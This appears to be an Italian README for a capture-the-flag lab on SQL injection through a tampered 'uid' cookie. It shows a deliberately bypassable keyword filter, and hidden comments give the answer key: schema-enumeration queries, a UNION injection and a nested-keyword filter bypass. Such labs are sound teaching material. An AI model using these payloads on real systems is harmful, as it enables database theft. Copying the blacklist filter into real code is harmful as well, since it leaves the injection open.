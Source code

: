# Challenge: Cookie Tampering & SQL Injection

## Descrizione
Hai accesso al codice sorgente di un'applicazione web con diverse vulnerabilità interessanti:
- Una **SQL Injection nella registrazione** 
- Una **Cookie Tampering vulnerability** nella pagina del profilo 🍪
- Un tentativo (fallito) di filtrare input pericolosi con una funzione bypassabile

L'obiettivo? Sfruttare queste vulnerabilità per recuperare la flag nascosta nella tabella!

## Obiettivo
- **Sfrutta la SQL injection nel cookie 'uid' della pagina profilo, stando attento al filtro utilizzato per l'esecuzione della query**
- **Costruisci una UNION injection per leggere la flag dalla tabella segreta**
- **Recupera il valore di della flag**

## Avviare il server:
```bash
docker pull ghcr.io/ax3lt/sqli-ch2
docker run -p 80:80 ghcr.io/ax3lt/sqli-ch2
```

## Suggerimenti
- Il codice nella pagina profilo usa questa query vulnerabile:
```sql
SELECT username FROM users WHERE id = [valore-del-cookie]
```

### Filtro (Python):
```python
def filter_query(query):
    keywords = ["SELECT", "FROM", "WHERE", "OR", "AND", "INSERT", "UPDATE", "DELETE", "DROP", "ALTER", "CREATE", "TABLE", "DATABASE", "UNION", "JOIN"]
    for keyword in keywords:
        query = query.replace(keyword, "")
    return query
```

### Filtro (Node.js):
```javascript
function filterQuery(query) {
    const keywords = ["SELECT", "FROM", "WHERE", "OR", "AND", "INSERT", "UPDATE", "DELETE", "DROP", "ALTER", "CREATE", "TABLE", "DATABASE", "UNION", "JOIN"];
    return keywords.reduce((filteredQuery, keyword) => {
        return filteredQuery.replace(keyword, "");
    }, query);
}
```

[//]: # (Prima bisogna spiegare che si possono ottenere info sui db e le loro tabelle con la query:)

[//]: # (```sql)

[//]: # (SELECT table_name FROM information_schema.tables WHERE table_schema=database())

[//]: # (```)

[//]: # (E per ottenere i nomi delle colonne di una tabella si può usare:)

[//]: # (```sql)

[//]: # (SELECT column_name FROM information_schema.columns WHERE table_name='...')

[//]: # (```)

[//]: # (Inj finale pre filter:)

[//]: # (```sql)

[//]: # (2 UNION SELECT mypersonalflag FROM flagrandomwordss -- a)

[//]: # (```)

[//]: # ()
[//]: # (Inj finale post filter:)

[//]: # (```sql)

[//]: # (2 UNIOUNIONN SELECSELECTT mypersonalflag FROFROMM flagrandomwordss -- a)

[//]: # (```)